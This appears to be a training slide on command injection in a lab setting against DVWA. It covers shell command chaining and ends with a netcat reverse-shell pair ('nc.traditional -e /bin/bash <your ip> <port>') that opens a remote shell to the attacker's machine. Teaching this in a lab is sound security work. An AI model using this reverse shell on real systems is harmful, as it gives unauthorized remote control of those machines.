

# Command Injection
Target: Damn Vulnerable Web Application (DVWA) Command Execution
Note: You can use metasploitable 2 or OWASPbwa, both have it included
Background for attack:
Running 2 commands on the same line: touch test.txt; echo “test” >> test.txt
Other special characters with commands:
apt update && apt full-upgrade (updates repositories THEN upgrades packages)
burpsuite & (sends the Burpsuite process to the background)
sudo !! (executes the last command with root privileges)
Connect to other machine: netcat
Your machine: nc -lvp <port>
Other machine: nc.traditional -e /bin/bash <your ip> <port>